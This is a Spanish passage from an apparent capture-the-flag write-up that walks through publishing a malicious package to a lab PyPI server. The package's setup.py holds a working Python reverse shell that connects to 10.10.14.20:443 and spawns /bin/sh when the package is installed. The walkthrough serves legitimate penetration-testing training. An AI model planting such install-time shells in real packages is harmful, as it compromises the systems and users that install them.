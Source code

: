 Hay ya vemos que para ir al subdominio `pypi.sneakycorp.htb` tenemos que pasar por el puerto **8080**, y efectivamente si browseamos
la web con `pypi.sneakycorp.htb:8080` ya podemos ver la web del **pypi server**

### Crear un packete malicioso para pypi {-}

Como el servicio pypi es un server que tiene conectividad con el exterior, podemos seguir lo siguientes pasos en la maquina de atacante.

```bash
mkdir pypi
cd !$
mkdir pwned
cd !$
touch __init__.py
touch setup.py
```

El fichero `__init__.py` se queda vacio y el contenido del `setup.py` seria el siguiente.

```python
import setuptools
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.20",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

setuptools.setup(
    name="example-pkg-YOUR-USERNAME-HERE",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires=">=3.6",
)
```

La idea aqui es que cuando el pypi server ejecute el setup.py, queremos que nos entable una reverse shell. El codigo
de la reverse shell es de **monkey pentester** y la hemos retocado para que vaya en el fichero `setup.py`.

Configuramos el equipo para poder enviar el paquete al repositorio victima.
